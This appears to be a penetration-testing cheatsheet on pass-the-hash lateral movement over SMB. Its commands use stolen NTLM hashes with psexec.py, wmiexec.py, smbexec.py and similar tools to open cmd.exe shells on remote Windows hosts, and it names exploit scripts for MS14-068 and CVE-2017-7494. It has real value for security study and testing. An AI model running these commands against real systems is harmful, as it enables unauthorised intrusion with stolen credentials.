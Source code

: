 <br>

**Cheatsheet:**

* `smbclient -U username%nt --pw-nt-hash -L //172.16.0.1/` (careful ! no LM hash, only NT)
* `pth-smbclient` - pass-the-hash smb client (kali)
    <br> (*`export LD_PRELOAD="${LD_PRELOAD:+$LD_PRELOAD }/usr/lib/passing-the-hash/pth-samba.so"`*)
* `pth-wmic -U domain/username%ntlm //10.0.0.2 cmd.exe`
* `./psexec.py -hashes ntlm domain/username@10.0.0.2 cmd.exe`
* *metasploit's module*: `exploit/windows/smb/psexec` supports path-the-hash (just set ntlm hash as password)

<br>

* [***impacket*** (github.com)](https://github.com/CoreSecurity/impacket) - has a ton of helpful utilities (see `impacket/examples`) <br>
By design *impacket* is created as a collection of Python classes supporting network protocols <small>(IP, TCP, UDP, ICMP, IGMP, ARP(IPv4 and IPv6) \ NMB and SMB1/2/3 \ DCE/RPC v4 and v5 over different transports: UDP (version 4 exclusively), TCP, SMB/TCP, SMB/NetBIOS and HTTP \ Portions of the following DCE/RPC interfaces: Conv, DCOM (WMI, OAUTH), EPM, SAMR, SCMR, RRP, SRVSC, LSAD, LSAT, WKST, NRPC).</small>
    <br> The result was a collection brilliant utilities for penetration testing: ***psexec***, ***smbrelay***, ***wmiexec***, ... See better description at [***IMPACKET (article by CoreSecurity)***](https://www.coresecurity.com/corelabs-research/open-source-tools/impacket)
    
    * *basic hash usage: `-hashes lm:nt` or `-hashes :nt` or `-hashes 00000000000000000000000000000000:nt`*
        <br> e.g. `smbclient.py -hashes lm:nt domain/username@10.0.0.2`
    * `psexec.py -hashes lm:nt DOMAIN/username@10.0.0.2 cmd.exe`
        <br> 1-step: load file using smb (445 port), 2-step: create and execute service using RPC based on uploaded file
    * `smbexec.py -hashes lm:nt domain/username@10.0.0.2 cmd.exe`
        <br> 1st approach: work as psexec
        <br> 2nd approach: 1-step: start share-server containing file, 2-step: create and execute service using RPC based on file from remote share (attacker's share)
    * `wmiexec.py -hashes lm:nt username@10.0.0.2 cmd.exe` - works by means of DCOM (starts no services and uploads no files)
        <br> does not require to install any service/agent at the target server, runs as Administrator, ***highly stealthy***
    * `dcomexec.py` - similar to wmiexec, but works using differet DCOM endpoints (currently supports MMC20.Application, ShellWindows and ShellBrowserWindow objects)
    * `atexec` - executes a command through the Task Scheduler service

    Known vulnerabilities:

    * `goldenPac.py` - exploit for *MS14-068*. Saves the golden ticket and also launches a psexec session at the target.
    * `sambaPipe.py` - this script will exploit *CVE-2017-7494*, uploading and executing the shared library specified by the user through the -so parameter.
    * `smbrelayx.py` - exploit for *CVE-2015-0005* using a SMB Relay Attack. If the target system is enforcing signing and a machine account was provided, the module will try to gather the SMB session key through netlogon.

* [PsexecSpray](https://github.com/Charliedean/PsexecSpray) - spray hashes and run psexec on working hashes
* {:.dummy}[pysmb](https://github.com/miketeo/pysmb) - an experimental SMB/CIFS library written in python, it implements the client-side SMB/CIFS protocol SMBv1/2
* {:.dummy}[metasploit's Rex library](https://github.com/rapid7/rex) - a variety of classes useful for security testing and exploit development
